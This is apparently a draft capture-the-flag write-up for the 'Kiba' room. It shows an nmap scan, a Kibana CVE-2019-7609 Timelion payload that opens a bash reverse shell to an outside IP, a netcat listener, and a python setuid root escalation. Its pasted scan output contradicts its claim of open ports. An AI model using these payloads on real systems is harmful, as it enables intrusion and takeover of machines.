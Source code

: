 * NOT THE FINAL WRITEUP !!! *
* 
# ROOM : KIBA

## 1. Enumeration

First of all, i have to gather somes informations about this boxes.
I run nmap scan to get open port, version etc.

`nmap -sC -sV {ip}`

3 ports is open as you can see in the result :

```
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-22 09:30 EDT
Nmap scan report for 127.0.0.1
Host is up (0.000072s latency).
All 1000 scanned ports on 127.0.0.1 are in ignored states.
Not shown: 1000 closed tcp ports (conn-refused)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 0.50 seconds

```

WebServer is empty, just the default apache page. Lets look to the port 5601, who is Kibana.

## 2. Research of exploit !
We found one CVE about Kibana : **CVE-2019-7609**

This CVE can lead to a RCE (Remote Code Execution).

On a shell, i run a listenner to get the reverseshell.

`nc -lnvp 4444`

On the Timelion, i can put the payload :

`
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -i >& /dev/tcp/192.168.0.136/12345 0>&1");process.exit()//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
`

Then run the code and load the canvas page.

Or we can use this [PoC](https://github.com/LandGrey/CVE-2019-7609)

Nice, we have the reverse shell.

1st flag obtained !

## 3. Privilege escalation !

We have to look at linux capabilities with getcap.

```getcap -r / 2</dev/null```

We can see python have the setuid capabilite and we can exploit this to get the root.
Using GTFOBins we have the right payload to get the root :

```/home/kiba/.hackmeplease/python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'```

We have the root !

root flag obtained !
